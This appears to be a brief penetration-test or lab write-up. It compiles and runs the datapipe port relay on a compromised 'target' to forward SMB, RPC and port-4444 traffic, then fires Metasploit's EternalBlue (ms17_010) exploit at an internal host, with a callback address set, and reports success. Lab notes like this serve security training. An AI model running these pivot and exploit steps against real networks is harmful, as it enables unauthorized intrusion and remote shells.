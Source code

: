 * target
```
gcc /home/administrator/datapipe.c -o datapipe
```
```
./datapipe
```
```
./datapipe 0.0.0.0 135 192.168.0.7 135
```
```
./datapipe 0.0.0.0 445 192.168.0.7 445
```
```
./datapipe 0.0.0.0 4444 192.168.0.7 4444
```
![image](images/Hye_dZgwa.png)

* ok, use metaploit ms17_010
```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 172.19.19.70
set lhost 192.168.0.70
check
exploit
```
成功
![image](images/Hyl_gtWgPT.png)
